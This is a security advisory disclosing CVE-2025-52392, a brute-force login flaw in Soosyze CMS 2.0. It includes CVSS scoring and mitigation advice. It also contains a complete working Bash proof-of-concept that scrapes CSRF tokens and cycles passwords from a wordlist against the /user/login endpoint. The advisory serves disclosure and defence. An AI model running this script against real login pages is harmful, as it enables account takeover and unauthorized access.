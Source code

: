 # Brute Force Login Vulnerability in Soosyze CMS 2.0 (CVE-2025-52392)

**Vendor:** Soosyze

**Product:** Soosyze CMS

**Version Affected:** 2.0 (confirmed)

**Component:** /user/login – Authentication Controller

**CWE:** [CWE-307: Improper Restriction of Excessive Authentication Attempts](https://cwe.mitre.org/data/definitions/307.html)

**Attack Vector:** Remote (network exploitable)

### Description

Soosyze CMS 2.0 contains a vulnerability in the /user/login authentication endpoint that allows unlimited credential-guessing attempts due to the absence of rate limiting and account lockout mechanisms.

A remote, unauthenticated attacker can submit unlimited HTTP POST requests with varying passwords for a known username/email without triggering any throttling, delay, or lockout.

The vulnerability can be exploited using automated tools such as THC Hydra, Burp Suite Intruder, or custom scripts, enabling brute-force attacks that may lead to compromise of administrative accounts.

Testing confirmed that the server issues a valid login form and CSRF token on every request, and accepts repeated authentication attempts without introducing timing penalties or invalidating sessions.

No vendor patch or mitigation was available at the time of publication.

### Impact

Successful exploitation may allow:

* Account Compromise: Unauthorized access to valid user accounts.
* Administrative Takeover: Full compromise of the CMS instance if administrative credentials are obtained.
* Data Exposure/Modification: Unrestricted access to protected content and potential injection of malicious configurations or content.

Impact Scope:

* Confidentiality: High
* Integrity: High
* Availability: Low

### Attack Details

Attack Vector (AV): Network (N)

Attack Complexity (AC): Low (L)

Privileges Required (PR): None (N)

User Interaction (UI): None (N)

Scope (S): Unchanged (U)

Confidentiality (C): High (H)

Integrity (I): High (H)

Availability (A): Low (L)

```
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:L
```

**CVSS v3.1 Base Score: 9.1 (Critical)**

### Proof of Concept (PoC)

#### Overview

The following PoC demonstrates a brute-force authentication vulnerability in **Soosyze CMS 2.0** at the `/user/login` endpoint.\
The issue is caused by **missing rate limiting and account lockout mechanisms**, allowing an attacker to try unlimited password guesses.

**Steps to Reproduce**

1. Deploy or access a Soosyze CMS 2.0 instance.
2. Identify a valid username or email address (e.g., test@test.com).
3. Prepare a password dictionary (e.g., rockyou.txt).
4. Execute the provided Bash PoC script to perform automated POST login attempts.

#### PoC Script

```bash
#!/usr/bin/env bash
# Author: Beatriz Fresno Naumova (beafn28)
# Usage:
#   ./script.sh [wordlist.txt]
# If no wordlist is provided, a dictionary will be used.

set -euo pipefail

BASE_URL="http://localhost:8000"
LOGIN_PATH="/user/login"
EMAIL_FIELD="email"
PASS_FIELD="password"
TARGET_EMAIL="test@test.com"

WORDLIST_FILE="${1:-}"
DEFAULT_WORDS=("123456" "admin" "password" "qwerty" "letmein" "admin123" "password1")

form_url="$BASE_URL$LOGIN_PATH"
COOKIE_JAR="$(mktemp)"

get_form() {
    curl -sS -c "$COOKIE_JAR" -b "$COOKIE_JAR" "$form_url" > /tmp/login_page.html
}

extract_token() {
    local name value
    name=$(sed -nE 's/.*name="([_a-zA-Z0-9:-]*(token|csrf)[_a-zA-Z0-9:-]*)".*type="hidden".*/\1/p' /tmp/login_page.html | head -n1 || true)
    value=""
    if [[ -n "$name" ]]; then
        value=$(sed -nE "s/.*name=\"$name\".*value=\"([^\"]*)\".*/\1/p" /tmp/login_page.html | head -n1 || true)
    fi
    printf '%s\t%s\n' "$name" "$value"
}

post_login() {
    local pass="$1" tname="$2" tval="$3"
    curl -sS -o /tmp/resp.html -w "%{http_code}" \
        -c "$COOKIE_JAR" -b "$COOKIE_JAR" \
        -X POST "$form_url" \
        -H "Content-Type: application/x-www-form-urlencoded" \
        -H "Origin: $BASE_URL" -H "Referer: $form_url" \
        --data-urlencode "$EMAIL_FIELD=$TARGET_EMAIL" \
        --data-urlencode "$PASS_FIELD=$pass" \
        $( [[ -n "$tname" && -n "$tval" ]] && printf -- '--data-urlencode %s=%s' "$tname" "$tval" )
}

echo "[*] Starting brute-force attack on $form_url"
[[ -n "$WORDLIST_FILE" && -r "$WORDLIST_FILE" ]] && mapfile -t words < "$WORDLIST_FILE" || words=("${DEFAULT_WORDS[@]}")

i=0
for pw in "${words[@]}"; do
    i=$((i+1))
    get_form
    IFS=$'\t' read -r TOKEN_NAME TOKEN_VALUE < <(extract_token)
    code=$(post_login "$pw" "$TOKEN_NAME" "$TOKEN_VALUE")

    if grep -q '"redirect"' /tmp/resp.html; then
        echo -e "[$i] Password found: '\e[1m$pw\e[0m' (HTTP $code)"
        break
    else
        echo "[$i] '$pw' (HTTP $code)"
    fi

    sleep 0.$((RANDOM%9+1))
done

rm -f "$COOKIE_JAR" /tmp/resp.html
```

#### Execution example

```
./poc.sh rockyou.txt
```

<figure><img src="../.gitbook/assets/Captura de pantalla 2025-08-13 a las 22.06.16.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Captura de pantalla 2025-08-12 a las 21.12.29.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Captura de pantalla 2025-08-12 a las 21.12.40 (1).png" alt=""><figcaption></figcaption></figure>

### Mitigation

* Implement server-side rate limiting (e.g., maximum 5 failed attempts per minute per IP).
* Apply temporary account lockout after multiple failed attempts.
* Introduce CAPTCHA or other bot-mitigation mechanisms after repeated failed logins.
* Consider logging and monitoring repeated failed authentication attempts.

### Discoverer

Beatriz Fresno Naumova (beafn28)

### References

* CVE: [CVE-2025-52392](https://www.cve.org/CVERecord?id=CVE-2025-52392)
* NIST: [https://nvd.nist.gov/vuln/detail/CVE-2025-52392](https://nvd.nist.gov/vuln/detail/CVE-2025-52392)
* Public advisory: [https://beafn28.gitbook.io/beafn28/cve/brute-force-login-vulnerability-in-soosyze-cms-2.0-cve-2025-52392](https://beafn28.gitbook.io/beafn28/cve/brute-force-login-vulnerability-in-soosyze-cms-2.0-cve-2025-52392)
